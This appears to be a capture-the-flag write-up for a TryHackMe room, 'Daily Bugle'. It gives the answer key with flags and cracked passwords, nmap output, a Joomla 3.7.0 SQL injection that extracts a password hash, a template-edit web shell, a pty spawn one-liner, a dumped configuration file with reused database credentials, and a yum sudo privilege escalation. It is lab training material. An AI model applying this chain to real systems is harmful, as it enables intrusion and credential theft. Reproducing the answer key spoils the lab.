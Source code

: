 # Daily Bugle
##### Question 1: Access the web server, who robbed the bank?
Answer
```bash
spiderman
```

##### Question 2: What is the Joomla version?
Answer
```bash
3.7.0
```

##### Question 3: What is Jonah's cracked password?
Answer
```bash
spiderman123
```

##### Question 4: User Flag
Answer
```bash
27a260fe3cba712cfdedb1c86d80442e
```

##### Question 5: Root flag
Answer
```bash
eec3d53292b1821868266858d7fa6f79
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Nmap Scan:
```bash
Nmap scan report for 10.10.66.214
Host is up (0.11s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
Network Distance: 4 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   40.60 ms  10.6.0.1
2   ... 3
4   108.28 ms 10.10.66.214

```

Vulnerable to SQLi via the version
```bash
root@kali:/opt/JOOMSCAN/joomscan# python test.py HTTP://10.10.66.214
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

creds from hash: jonah:spiderman123

shell from adding new page in a template and then going to that page


python -c 'import pty; pty.spawn("/bin/bash")'

configuration.php gives sql database creds which are reused for user jjameson
```bash
cat configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
```
```bash
jjameson:nv5uz9r3ZEDzVjNu
```

Priv Esc:
```bash
sudo yum privs

GTFO Bins (b): https://gtfobins.github.io/gtfobins/yum/ 
```

